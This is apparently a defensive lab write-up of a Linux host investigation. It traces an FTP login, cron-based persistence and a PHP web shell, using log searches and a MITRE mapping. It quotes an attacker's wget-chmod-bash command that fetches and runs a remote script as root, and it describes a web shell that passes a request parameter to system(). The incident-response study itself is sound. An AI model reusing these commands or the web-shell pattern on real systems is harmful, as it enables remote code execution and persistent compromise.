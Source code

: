 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

## Commands Run
- journalctl | grep -i "ftp" | grep -i "success"  to check for successful FTP authentications
- journalctl | grep -i /tmp to check for changes to the /tmp directory
- find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null to find modified files between within the timefram
- journalctl | grep ftpadam | grep "110\.44\.125\.139" to search for all activities belonging to ftpadam (account logged into by the threat actor) and determine their activity

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](image.png)

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](image-1.png)
![Cron Job](image-2.png)

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user
![alt text](image-3.png)

The last activity performed by the user on Sept 3rd 09:25:25
![Last Activity](image-4.png)


## Mitigation Recommendations
- Steps to remove, patch, block IPs, rotate creds

## MITRE ATT&CK Mapping
- T1133 (initial access via remote services)
- T1053.003 (Persistence via Scheduled Task/Job)


